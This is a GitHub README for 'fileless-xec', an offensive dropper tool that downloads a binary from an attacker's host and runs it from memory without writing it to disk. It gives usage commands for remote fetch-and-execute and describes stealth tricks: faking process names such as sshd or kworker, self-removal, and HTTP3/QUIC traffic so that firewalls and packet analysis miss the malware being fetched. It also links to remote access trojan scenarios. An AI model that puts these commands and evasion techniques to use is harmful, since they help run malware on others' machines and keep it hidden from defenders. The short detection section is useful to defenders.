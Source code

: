 <h1 align=center> ➲ fileless-xec 🦜</h1>

<div align="center"><img src="https://github.com/ariary/fileless-xec/blob/main/img/fileless-small.png"></div>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>
<br>

***Pentest use:*** `fileless-xec` is used on target machine to stealthy execute a binary file located on attacker machine



## ➲ Short story

`fileless-xec` enable us to execute a remote binary on a local machine directly from memory without dropping them on disk

**[➪ Install](https://github.com/ariary/fileless-xec/blob/main/install.md)**

 - simple usage `fileless-xec <binary_url>` (~`curl | sh` for binaries)
 - execute binary with specified program name: `fileless-xec -n /usr/sbin/sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid fileless-xec [...]` 

![demo](https://github.com/ariary/fileless-xec/blob/main/img/fileless-xec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>fileless-xec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun). Once writeNsleep started fileless-xec will delete itself (<code>--self-remove</code>)

</details>

### Other use cases

* [Execute binary with stdout/stdin](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-stdoutstdin)
* [Execute binary with arguments](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-arguments)
* [`fileless-xec` self remove](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-self-remove)
* [Bypass network restriction using ICMP](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-network-restriction-with-icmp)
* [Bypass firewall with HTTP3](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-firewall-with-http3)
* ["Remote go": execute go binaries without having go installed locally](https://github.com/ariary/fileless-xec/blob/main/usage.md#remote-go-execute-go-binaries-without-having-go-installed-locally)
* [Execute a shell script](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-a-shell-script)
* [`fileless-xec` server mode](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-server-mode)
  * [RAT (Remote Access Trojan) scenario](https://github.com/ariary/fileless-xec/blob/main/usage.md#rat-remote-access-trojan-scenario)
* [`fileless-xec` on windows](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-on-windows)


## ➲ Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support
* `fileless-xec` self removes once launched

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running <code>go run ./test/http3/light-server.go -p LISTENING PORT</code> (This is http3 equivalent of <code>python3 -m http.server <listening_port></code>)<br>
use <code>test/http3/genkey.sh</code> to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `fileless-xec` as a dropper (***Only for testing purpose or with the authorization***), you likely want to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`fileless-xec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 

 2. Detach from tty to map behaviour of deamon process
 
`setsid fileless-xec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```

Or also [`opensnoop`](https://github.com/brendangregg/perf-tools/blob/master/opensnoop) (but not by [`execsnoop`](https://github.com/brendangregg/perf-tools/blob/master/execsnoop))

Or seccomp profile auditing `execve` syscall (but it is very overwhelming as a `sleep` command also use execve)

